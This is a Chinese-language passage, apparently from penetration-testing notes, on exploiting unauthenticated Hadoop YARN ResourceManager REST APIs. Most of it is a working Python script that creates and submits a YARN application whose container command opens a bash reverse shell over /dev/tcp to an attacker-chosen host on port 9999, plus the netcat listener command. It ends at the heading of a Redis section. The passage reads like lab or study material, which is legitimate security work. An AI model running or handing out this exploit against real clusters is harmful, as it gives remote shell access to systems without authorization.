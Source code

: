 ### 利用

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API (https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html) 也可以提交任务执行。

利用过程如下：

1. 在本地监听等待反弹 shell 连接
2. 调用 New Application API 创建 Application
3. 调用 Submit Application API 提交

脚本如下：

```python
import requests

target = 'http://192.168.1.103:8088/'
lhost = '192.168.1.104' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

运行

```
python hadoop.py
nc -lvvp 9999  # 监听
```

<img src="图片\Snipaste_2023-02-08_15-04-57.png" alt="Snipaste_2023-02-08_15-04-57" style="zoom:80%;" />

## redis-未授权访问
